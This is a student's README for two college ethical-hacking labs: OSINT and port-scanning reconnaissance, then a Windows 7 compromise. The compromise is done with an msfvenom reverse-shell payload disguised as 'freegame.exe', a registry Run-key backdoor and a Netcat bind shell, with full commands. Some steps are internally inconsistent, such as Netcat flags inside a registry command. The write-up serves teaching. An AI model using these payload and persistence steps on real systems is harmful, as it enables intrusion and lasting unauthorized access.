









[Ethical-LAB-README (3).md](https://github.com/user-attachments/files/28243429/Ethical-LAB-README.3.md)
# 🧪 Ethical Hacking & Reconnaissance Lab

> **Fanshawe College — Ethical Hacking and Exploits**
> Hands-on penetration testing and OSINT reconnaissance lab performed inside a virtualized Kali Linux environment on VMware Workstation.

---

## 🛠️ Tools Used


| Tool | Purpose |
|---|---|
| **CeWL** | Custom wordlist generation from target websites |
| **WHOIS** | Passive domain reconnaissance |
| **theHarvester** | Email & host enumeration via OSINT |
| **SpiderFoot** | Automated OSINT intelligence gathering |
| **Nmap** | Network port scanning & service discovery |
| **Unicornscan** | High-speed advanced TCP/UDP port scanning |

---

## 🖥️ Lab Environment

- **Platform:** VMware Workstation
- **Attacker OS:** Kali Linux 2022.3
- **Target Network:** Simulated enterprise network (10.0.0.1/24)
- **Target Domains:** transpirenetworks.com, fanshawec.ca (OSINT exercises)
- **Lab Machines:** Windows 10, Windows 7, Windows Server 2016, Security Onion, Router, Client

---

## 📌 Lab Tasks & Screenshots

---

### Task 1 — CeWL: Custom Wordlist Generation

**Objective:** Scrape a target website to generate a custom wordlist for use in password attacks.

**Command used:**
```bash
sudo cewl http://www.transpirenetworks.com -w transpire.txt
cat transpire.txt
```

**What it does:**
- CeWL crawls the target website and extracts unique words
- The generated wordlist (`transpire.txt`) can be used with tools like Hydra or John the Ripper
- Builds context-aware, target-specific wordlists for credential attacks



---

### Task 2 — WHOIS: Passive Domain Reconnaissance

**Objective:** Gather domain registration and ownership information without touching the target.

**Command used:**
```bash
whois transpirenetworks.com
```

**Key information extracted:**
- Registrar: Tucows Domains Inc.
- Creation Date: 2013-04-30
- Name Servers: NS1.HOSTPAPA.COM / NS2.HOSTPAPA.COM
- Domain Status: clientTransferProhibited

**Why it matters:** WHOIS is a fully passive technique — it gathers intelligence without sending a single packet to the target, making it undetectable.



---

### Task 3 — theHarvester: Email & Host Enumeration

**Objective:** Enumerate email addresses and hostnames associated with a target organization.

**Command used:**
```bash
theHarvester -d fanshawec.ca -b google
```

**Results:**
- 📧 **26 email addresses** discovered (staff, admin, student accounts)
- 🖥️ **2 hosts** found:
  - `www.fanshawec.ca` → `52.60.137.41`
  - `x22www.fanshawec.ca`

**Why it matters:** Email harvesting is a critical OSINT step — identifying staff emails exposes potential phishing and social engineering attack vectors.



---

### Task 4 — SpiderFoot: Automated OSINT Intelligence Gathering

**Objective:** Run an automated multi-source OSINT scan to build a full intelligence profile of the target.

**Tool:** SpiderFoot v4.0 (web UI at `127.0.0.1:6065`)

**Scan Results Summary:**

| Data Type | Unique | Total |
|---|---|---|
| Affiliate Email Addresses | 4 | 4 |
| Blacklisted Internet Names | 1 | 1 |
| Cloud Storage Buckets | 6 | 6 |
| Email Addresses | 3 | 3 |
| Internet Names | 14 | 17 |
| Malicious Internet Names | 1 | 1 |
| Public Code Repositories | 11 | 11 |
| Raw Data from RIRs/APIs | 189 | 207 |
| Vulnerability - Third Party Disclosure | 2 | 2 |

**Why it matters:** SpiderFoot automates hours of manual OSINT work, aggregating data from dozens of sources simultaneously.



---

### Task 5 — Nmap: Network Port Scanning

**Objective:** Discover live hosts and open ports on the target network subnet.

**Command used:**
```bash
nmap -T4 -F 10.0.0.1/24
```

**Results:**
- **Host:** `spokhrel157855-w10` (10.0.0.10) — **UP**
  - `135/tcp` open — msrpc
  - `139/tcp` open — netbios-ssn
  - `445/tcp` open — microsoft-ds

**Why it matters:** Open ports 135, 139, and 445 are Windows SMB services — a known attack surface for exploits like EternalBlue (MS17-010).



---

### Task 6 — Unicornscan: High-Speed Advanced Port Scanning

**Objective:** Perform a high-speed asynchronous TCP scan as an advanced alternative to Nmap.

**Command used:**
```bash
sudo unicornscan -mT 10.0.0.1/24 -p 139 -Iv -r 200 -s 192.168.1.2
```

**Flags explained:**
- `-mT` — TCP scan mode
- `-p 139` — Target NetBIOS port
- `-r 200` — 200 packets per second
- `-s` — Source address for packets

**Why it matters:** Unicornscan is faster than Nmap for large-scale scanning and supports source address randomization for stealthier authorized red team engagements.



---

### Task 7 — Unicornscan: Scan Results & Flag Reference

**Objective:** Demonstrate a live Unicornscan TCP scan against the target subnet and review the tool's advanced flag options.

**Command used:**
```bash
sudo unicornscan -mT 10.0.0.1/24 -p 139 -Iv -r 200 -s 192.168.1.2
```

**Live scan output breakdown:**
- `adding 10.0.0.0/24 mode 'TCPscan' ports '139' pps 200` — Confirming subnet, port, and packet rate
- `using interface(s) eth1` — Scanning through the eth1 network interface
- `scanning 2.56e+02 total hosts` — Scanning all 256 hosts in the /24 subnet
- `sender statistics 198.7 pps with 256 packets sent total` — Confirms ~200 packets/sec rate
- `listener statistics 0 packets received 0 dropped` — No responses on port 139 from this subnet

**Key flag reference shown in this screenshot:**

| Flag | Description |
|---|---|
| `-Q, --quiet` | Suppress output to screen |
| `-r, --pps` | Packets per second (higher = less accurate) |
| `-R, --repeats` | Repeat packet scan N times |
| `-s, --source-addr` | Source address for packets (supports random `r`) |
| `-S, --no-shuffle` | Do not randomize port order |
| `-t, --ip-ttl` | Set TTL on sent packets |
| `-v, --verbose` | Verbose output (stack `-vvvvv` for maximum detail) |
| `-w, --safefile` | Write PCAP file of received packets |
| `-W, --fingerprint` | OS fingerprint (0=Cisco, 1=OpenBSD, 2=Windows XP, 5=nmap, 6=Linux) |
| `-z, --sniff` | Sniff alike mode |
| `-Z, --drone-str` | Drone string for distributed scanning |

**Why it matters:** The 0 received packets on port 139 means NetBIOS is not exposed on this subnet — an important negative finding in a pentest report that rules out SMB-based attack vectors on this network segment.



---

## 📚 Key Takeaways

- **Passive recon** (WHOIS, theHarvester, SpiderFoot) gathers intel without touching the target
- **Active recon** (Nmap, Unicornscan) identifies live hosts and open services
- **Wordlist generation** (CeWL) supports the credential attack phase
- Open SMB ports (135, 139, 445) represent real-world Windows attack surfaces
- Automated tools like SpiderFoot dramatically accelerate the OSINT phase of a pentest

---

## ⚠️ Disclaimer

> All activities were performed in a **controlled, isolated lab environment** for educational purposes as part of the Fanshawe College Information Security Management program. No unauthorized systems were targeted.

---

## 👨‍💻 Author

**Sudip Pokhrel** | Cybersecurity & IT Support Enthusiast

[](https://www.linkedin.com/in/sudip-pokhrel-3375291b3/)
[](https://github.com/sudippokhrel33513)


# 💀 Exploitation & Post-Exploitation Lab (Lab 06)

> **Fanshawe College — Ethical Hacking and Exploits**
> A full end-to-end exploitation lab using Metasploit Framework, Meterpreter, and Netcat to compromise a Windows 7 target, establish persistence, and manage remote access — all within an isolated VMware lab environment.

---

## 🛠️ Tools Used


| Tool | Purpose |
|---|---|
| **Metasploit Framework (msfvenom)** | Generate malicious payload (.exe) |
| **multi/handler** | Listen for incoming reverse shell connection |
| **Meterpreter** | Post-exploitation shell on target |
| **Netcat (nc.exe)** | Upload and establish persistent backdoor |
| **Windows Registry (regedit)** | Set backdoor to run on startup |

---

## 🖥️ Lab Environment

- **Attacker:** Kali Linux 2022.3 (`10.0.0.99`) — VMware Workstation
- **Target:** Windows 7 (`10.0.0.7`) — VMware Workstation
- **Attack Type:** Client-side exploit via malicious executable + reverse TCP shell
- **Persistence Method:** Windows Registry `HKLM\...\Run` key

---

## 📌 Attack Stages & Screenshots

---

### Stage 1 — Payload Generation with msfvenom

**Objective:** Create a malicious Windows executable that connects back to the attacker when run on the target.

**Command used:**
```bash
msfvenom -p windows/meterpreter_reverse_tcp \
  LHOST=10.0.0.99 LPORT=4444 \
  -e x86/shikata_ga_nai -i 1 \
  -f exe -o /var/www/html/freegame.exe
```

**What happened:**
- `msfvenom` generated a reverse TCP Meterpreter payload disguised as `freegame.exe`
- Encoder `x86/shikata_ga_nai` was applied (1 iteration) to obfuscate the payload
- Final payload size: **175,715 bytes** | Final exe size: **250,880 bytes**
- Saved to `/var/www/html/` so it can be served via the web server for the victim to download
- `uname -a` confirms the attacker machine: Kali Linux 5.18.0 x86_64



---

### Stage 2 — Setting Up the Listener & Getting a Shell

**Objective:** Configure Metasploit's `multi/handler` to catch the reverse connection when the victim runs the payload.

**Commands used:**
```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set lhost 10.0.0.99
exploit
```

**What happened:**
- Reverse TCP handler started on `10.0.0.99:4444`
- When the victim ran `freegame.exe`, a **Meterpreter session** was opened:
  `10.0.0.99:4444 → 10.0.0.7:49159`
- `meterpreter > shell` dropped into a full Windows command shell
- `dir` confirmed we are inside `C:\Users\User\Desktop\` on the Windows 7 target
- `meterpreter > background` sent the session to background for further tasks



---

### Stage 3 — File Upload & Filesystem Navigation

**Objective:** Upload tools to the target and explore the filesystem.

**Commands used:**
```bash
upload /usr/share/windows-resources/binaries/nc.exe c:\
meterpreter > shell
cd \
dir
```

**What happened:**
- `nc.exe` (Netcat) was uploaded from Kali to the target's `C:\` drive
- First upload attempt failed (`spokhrel.txt` — wrong path), second succeeded
- After dropping into a Windows shell, navigated to `C:\` root using `cd ..` commands
- `dir` output confirmed `nc.exe` (59,392 bytes) now exists on the target alongside system files:
  - `7z920.exe`, `autoexec.bat`, `config.sys`, `nc.exe`, `spokhrel.txt`


---

### Stage 4 — Registry Persistence (Backdoor)

**Objective:** Make the backdoor survive reboots by adding it to the Windows startup registry key.

**Commands used:**
```bash
meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run \
  -v Backdoor -d C:\\nc.exe

meterpreter > background
msf6 exploit(multi/handler) > sessions -k 1
msf6 exploit(multi/handler) > date && hostname
```

**What happened:**
- A registry key `Backdoor` was set under `HKLM\...\CurrentVersion\Run` pointing to `C:\nc.exe`
- This ensures `nc.exe` launches automatically every time Windows boots
- Session was killed (`sessions -k 1`) to simulate the victim restarting their machine
- `date && hostname` confirmed attacker system info: `spokhrel157855`, Oct 21 2023


---

### Stage 5 — Verifying Persistence on the Target (Windows Registry Editor)

**Objective:** Confirm on the Windows 7 machine that the backdoor registry key was successfully written.

**What was shown:**
- Windows Registry Editor open at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- **Backdoor** key visible with data value `C:\nc.exe` — confirming successful persistence
- `nc.exe` also launched automatically (visible as a black window in the background)
- Command prompt shows `net config workstation | find "name"`:
  - Computer name: `\\SPOKHREL157855-W7`
  - Full name: `spokhrel157855-W7`
  - Username: `User`


---

### Stage 6 — Reconnection & Backdoor Cleanup

**Objective:** Reconnect to the target after reboot using the persistent backdoor, then clean up traces.

**Commands used:**
```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set lhost 10.0.0.99
exploit

meterpreter > reg enumkey -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
meterpreter > reg deleteval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor
```

**What happened:**
- After the Windows 7 machine rebooted, `nc.exe` auto-launched (due to the Run key)
- Metasploit caught the incoming reverse connection — **Meterpreter session 1 opened** again
- `reg enumkey` listed the Run values: `VMware User Process` and `Backdoor`
- `reg deleteval -v Backdoor` successfully removed the backdoor from the registry
- Output: `Successfully deleted Backdoor.` — simulating post-pentest cleanup


---

### Stage 7 — Advanced Registry Manipulation

**Objective:** Demonstrate setting a registry value with advanced flags and verifying it.

**Commands used:**
```bash
meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run \
  -v Backdoor -d C:\\nc.exe -ldp 1234 -e cmd.exe

meterpreter > reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run \
  -v Backdoor
```

**Results:**
- Registry key successfully set with value `1234`
- `reg queryval` confirmed:
  - Key: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
  - Name: `Backdoor`
  - Type: `REG_SZ`
  - Data: `1234`
- Bottom terminal: `uname -a && date` shows Kali Linux attacker system timestamp: Oct 21 2023


---

### Stage 8 — Netcat Persistent Access & Final Verification

**Objective:** Use Netcat directly to connect to the backdoor on the target machine and verify full access.

**Commands used:**
```bash
nc 10.0.0.7 1234
cd \
dir
exit
date
uname -a
```

**What happened:**
- Netcat connected directly to Windows 7 (`10.0.0.7`) on port `1234`
- Full Windows command shell obtained — `Microsoft Windows [Version 6.1.7600]`
- `dir C:\` listing confirmed all files on the target:
  - `7z920.exe`, `autoexec.bat`, `config.sys`, `nc.exe`, `spokhrel.txt`
  - Directories: `PerfLogs`, `Program Files`, `Security`, `Users`, `Windows`
- Successfully exited and returned to Kali
- Final `uname -a` confirms Kali Linux 5.18.0 attacker system: Oct 24 2023


---

## 🔁 Full Attack Chain Summary

```
[1] msfvenom → generate freegame.exe (reverse TCP payload)
      ↓
[2] Victim runs freegame.exe → Meterpreter session opened
      ↓
[3] Upload nc.exe to C:\ on target via Meterpreter
      ↓
[4] Write nc.exe to HKLM\...\Run registry key (persistence)
      ↓
[5] Verify registry key on Windows 7 (regedit)
      ↓
[6] Kill session → target reboots → nc.exe auto-runs
      ↓
[7] Meterpreter re-connects → verify & clean registry
      ↓
[8] Netcat connects directly to backdoor port 1234
```

---

## 📚 Key Takeaways

- `msfvenom` can create encoded payloads disguised as legitimate files to bypass basic defenses
- **Reverse TCP shells** initiate the connection from the victim → attacker, bypassing firewalls
- **Meterpreter** provides a powerful post-exploitation framework (upload, shell, registry control)
- **Registry Run keys** are a classic persistence mechanism in Windows environments
- **Netcat** (`nc.exe`) is a lightweight tool for maintaining persistent access via raw TCP
- Proper pentest cleanup includes removing backdoors, registry keys, and uploaded files

---

## ⚠️ Disclaimer

